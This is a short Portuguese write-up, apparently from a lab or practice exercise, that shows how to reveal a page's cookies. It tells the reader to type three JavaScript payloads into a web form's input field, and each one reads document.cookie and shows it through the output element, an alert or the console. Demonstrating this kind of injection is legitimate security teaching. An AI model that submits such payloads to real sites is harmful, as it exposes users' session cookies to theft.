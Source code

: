 Diante da posibilidade de inspecionar o código (F12), e sabendo que há um componente de output (```html <div id="output"></div>```), podemos inserir os camandos abaixo, e pelo retorno, exibir os dados em cookie.

Para reprodução, digite no campo de input os camando abaixo e clique no botão "Submit".

Comandos:

1) ```html document.getElementById("output").innerHTML = "Cookie.value: " + document.cookie; ```

2) ```html alert(document.cookie); ```

3) ```html console.log("Cookie.value: " + document.cookie); ```